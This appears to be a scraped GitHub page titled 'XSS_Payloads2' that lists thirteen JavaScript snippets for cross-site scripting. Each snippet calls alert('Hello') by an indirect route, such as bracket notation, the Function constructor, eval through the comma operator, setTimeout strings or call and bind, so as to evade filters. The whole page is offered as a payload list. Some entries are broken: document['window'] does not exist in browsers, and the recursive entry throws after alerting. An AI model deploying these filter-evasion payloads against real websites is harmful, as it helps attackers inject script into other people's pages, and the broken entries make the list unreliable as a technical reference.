 # XSS_Payloads2

XSS payloads

// Array Notation  
`window['alert']('Hello');`

// Chained Array Notation  
`this['window']['alert']('Hello');`

// Indirect Reference Using Call/Apply  
`(0, eval)('alert("Hello")');`

// Calling via Function Constructor  
`(new Function('alert("Hello")'))();`

// SetTimeout or SetInterval  
`setTimeout('alert("Hello")', 0);`

// Indirect Reference with call  
`window.alert.call(this, 'Hello');`

// Using bind  
`const alertBind = alert.bind(window);
alertBind('Hello');`

// anon functions  
`(() => alert('Hello'))();`

// Self-Invoking Function with alert  
`(function(){ alert('Hello'); })();`

// Function call  
`Function.prototype.call.call(alert, window, 'Hello');`

// Global this  
`(this || window).alert('Hello');`

// chaining doc and window  
`document['window']['alert']('Hello');`

// Reclusive indirect function calling  
`(((f) => f(f))((f) => alert('Hello')))();`
